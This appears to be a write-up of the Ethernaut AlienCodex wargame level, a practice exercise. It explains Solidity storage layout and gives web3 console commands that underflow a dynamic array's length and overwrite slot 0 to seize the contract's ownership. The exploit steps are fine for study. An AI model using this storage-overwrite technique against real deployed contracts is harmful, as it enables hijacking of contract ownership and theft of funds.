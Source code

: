 The AlienCodex contract inherits the Ownable contract and on inspecting the contract.abi we can get that ownable has a state variable owner where owner of the AlienCodex is stored and slot allocation starts with the inherited contract from left to right and Owner is only the contract AlienCodex inherits and slot allocation starts from Owner.

To call any of the function, contact state variable must be true as assert(contact) must be passed. So, call the make_contract function first to pass the modifier.

```
await contract.make_contact()
```

Now the pass this level, we have to call retract function to change the array length to 2^256 because of the underflow as initial length of codex is 0 and it gives us the possibility to set value to the entire storage area of 2^256. This exploit works because of the fact that the EVM doesn't validate an array's ABI-encoded length vs its actual payload.

```
await contract.retract()
```

And, we have dynamic array of bytes32 and it can store dynamic number of values and we have to find codex index such that slot is 0 so we can override the owner address.

```
owner takes 20bytes of storage and boolean takes 1 bytes of storage and they can be stored in the same slot 0.

Slot for codex index can be calculated as: keccak256(p) + index * elementSize (how many slots they occupy) = keccak256(p) + index * 1
p is the slot where the length of the array is stored./s

Max number of values codex can store is (2 ^ 256 - keccak256(1) + 1)

Slot                        Data Stored
0                   owner and contact both are stored
1                   Length of codex dynamic array is stored
.                        .
.                        .
.                        .
keccak256(1)        codex[0]
keccak256(1) + 1    codex[1]
.                    .
.                    .
.                    .
2^256 - 1            codex[2^256 - 1 - uint(keccak256(1))]
2^256 - 1 + 1 = 0    codex[2^256 - uint(keccak256(1))]

```
So at codex index of (2^256 - uint(keccak256(1))) overflow occurs and when we set the value for it and the slot 0 is overwritten.

index to override  = 2 ^ 256 - uint(keccak256(1)) = web3.utils.toBN(2).pow(web3.utils.toBN(256)).sub(web3.utils.toBN(web3.utils.soliditySha3({value: 1, type: 'uint256'})))

data to override = web3.eth.abi.encodeParameter("address", player)

Now finally run these in console to change ownership.

```
const index = web3.utils.toBN(2).pow(web3.utils.toBN(256)).sub(web3.utils.toBN(web3.utils.soliditySha3({value: 1, type: 'uint256'})))
const data = web3.eth.abi.encodeParameter("address", player)
await contract.revise(index, data);
```

Note: codex.length-- reports error in the latest compiler versions as length being read-only and cannot be used to resize arrays.
